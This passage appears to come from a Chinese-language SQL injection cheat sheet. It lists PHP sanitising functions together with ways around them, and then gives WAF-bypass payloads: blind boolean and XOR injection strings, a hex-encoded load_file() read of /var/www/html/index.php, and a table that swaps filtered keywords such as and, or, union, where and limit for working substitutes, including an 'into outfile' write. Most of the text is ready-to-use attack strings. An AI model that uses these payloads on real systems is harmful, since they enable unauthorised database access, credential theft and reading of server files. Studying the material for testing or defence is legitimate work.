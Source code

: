 ```
功能说明:
将字符转换为 HTML 转义字符

绕过:
只过滤单引号，双引号等，不过滤反斜杠 \ ，可以反斜杠 \ 转义绕过

3.substr_count()
功能说明:
计算字串出现的次数

绕过:
使用%00
unio%00n

4.stripslashes()
功能说明:
去掉一个反斜杠 \

5.mysql_real_escape_string()
功能说明:
转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集 

6.is_numeric()
功能说明:
检测变量是否为数字或数字字符串


```
#### 通用WAF绕过：
```
可以绕过(,,union,select,and,or,空格,#，balabalabalabala)
a'^!(mid((version)from(-{pos}))='{passwd}')='1

a'^(ascii(mid((version())from(1)))=53)^'1
select{x table_name}from{x information_schema.tables};

if(substr(user(),1,1)in(0x41),3,0)  #id=3和id=0返回页面不同
if(substr(version(),1,1)in(0x35),'1',9) #注意'1'和1

id=6^(if(ascii(mid(load_file(0x2F7661722F7777772F68746D6C2F696E6465782E706870),1,2))>1,0,1))

十六进制编码:
0x2F7661722F7777772F68746D6C2F696E6465782E706870
/var/www/html/index.php
```
### 关键字过滤绕过：
* 左边表示会被Filtered的语句，右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

原语句|绕过语句|
---|----|
<font color=#FF6347>and</font>|<font color=#00BFFF>&&</font>|
<font color=#FF6347>or</font>|<font color=#00BFFF>\|\|</font>|
<font color=#FF6347>union</font> select user, password from users|<font color=#00BFFF>1 \|\|</font> (select user from users where user_id = 1) = 'admin
1 \|\| (select user from users <font color=#FF6347>where</font> user_id = 1) = 'admin'|1 \|\| (select user from users <font color=#00BFFF>limit</font> 1) = 'admin
1 \|\| (select user from users <font color=#FF6347>limit</font> 1) = 'admin'|1 \|\| (select user from users <font color=#00BFFF>group by</font> user_id having user_id = 1) = 'admin'
1 \|\| (select user from users <font color=#FF6347>group by</font> user_id having user_id = 1) = 'admin'|1 \|\| (select substr(<font color=#00BFFF>group_concat</font>(user_id),1,1) user from users )=1
1  \|\| (<font color=#FF6347>select</font> substr(group_concat(user_id),1,1) user from users) = 1|1 \|\| 1 = 1 into outfile 'result.txt'　或者  1 \|\| substr(user,1,1) = 'a'